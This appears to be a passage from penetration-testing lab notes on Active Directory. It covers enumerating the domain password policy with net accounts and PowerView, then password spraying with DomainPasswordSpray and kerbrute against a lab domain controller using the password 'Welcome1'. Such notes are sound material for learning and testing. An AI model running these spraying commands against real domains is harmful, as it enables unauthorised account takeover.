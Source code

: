 
Some detection methods: [https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) 


#### Password policy 

Some tools work for this end: `net.exe`, PowerView, CrackMapExec ported to Windows, SharpMapExec, SharpView, etc.

##### net.exe

```cmd-session
net accounts
```

##### PowerView

Blocked by Microsoft Defender. 
PowerView gave us the same output as our net accounts command, just in a different format but also revealed that password complexity is enabled (PasswordComplexity=1).

```powershell-session
import-module .\PowerView.ps1

Get-DomainPolicy
```



### Password spraying

#### DomainPasswordSpray

[See DomainPasswordSpray](domainpasswordspray.md)

```powershell-session
Import-Module .\DomainPasswordSpray.ps1

# Authenticated in the domain:
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

# Not authenticated in the domain:
Invoke-DomainPasswordSpray -UserList userlist.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

#### kerbrute

```
./kerbrute_windows_amd64.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```
